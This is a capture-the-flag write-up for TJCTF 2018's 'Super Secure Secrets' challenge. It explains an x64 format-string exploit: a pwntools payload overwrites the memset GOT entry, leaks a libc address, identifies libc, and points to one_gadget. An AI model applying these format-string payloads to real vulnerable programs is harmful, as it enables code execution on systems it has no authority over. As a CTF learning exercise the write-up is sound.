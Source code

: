 ```yaml
---
layout: post
title: "[TJCTF:Super Secure Secrets] x64 formatstring"
comments: true
---
```


![](/assets/files/ctf/2018/tjctf/supersecuresecret.png)

* Orgs [link](https://tjctf.org/chals/list)
* [ctftime](https://ctftime.org/event/660)
* binary [backup](/assets/files/ctf/2018/tjctf/super_secure)

## The bug

The original vulnerability is the format string. 

![](/assets/files/ctf/2018/tjctf/fmt.png)

The protections are weak, so the task should not be very hard.

![](/assets/files/ctf/2018/tjctf/checksec.png)


## x64 format string

Originally the program provides only one read/write message, then exits. So the first step is to do leak of libc base and jump on the start of the program, to gain another format string bug execution.

The buffer is read by `fgets(a1, 0x80, stdin);` which can read zeroes from the input and have enough room to place payload! The only problem with fmt vuln exploit is that we need to place addresses after string itself.

Our first payload will look like this:

```
	b = ELF("./super_secure")

	ms = b.got["memset"]

	payload = "%3488c%33$hn%62112c%34$hn%65472c%35$hn%36$hn___%37$s----"
	payload += p64(ms) + p64(ms + 2) + p64(ms + 4) + p64(ms + 5)
	payload += p64(b.got["putchar"])
``` 

The first part can be generated with [pwn tools](https://docs.pwntools.com) like this:

```
>>> fmtstr_payload(33, {0x602050:0x400DA0}, write_size="short", numbwritten=-8*4)
'P `\x00\x00\x00\x00\x00R `\x00\x00\x00\x00\x00T `\x00\x00\x00\x00\x00V `\x00\x00\x00\x00\x00%3488c%33$hn%62112c%34$hn%65472c%35$hn%36$hn'
```

* `0x400DA0` it's `secure_service()` function
* `numbwritten=-8*4` it's our skipped bytes of addresses from the beginning
* `___%37$s----` is our leaking libc addr

## libc version

Up to now, we are successfully leaked `putchar()` form libc. We need to identify remote libc version. Let's use awesome [libc-database](https://github.com/niklasb/libc-database):

```
$ ./find putchar 0x7ff422f25810 
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

We can extract that .deb package to get proper libc.

## Putting it all together


Now we can patch `.got.plt` entries to libc, we can patch something to `system()` or use more general approach - [one_gadget](https://github.com/david942j/one_gadget).

![](/assets/files/ctf/2018/tjctf/one_gadget.png)

Finally we can run our [exploit](/assets/files/ctf/2018/tjctf/xpwn.py) to grab the flag.

```
tjctf{4r3_f0rm47_57r1n65_63771n6_0ld_y37?}
```

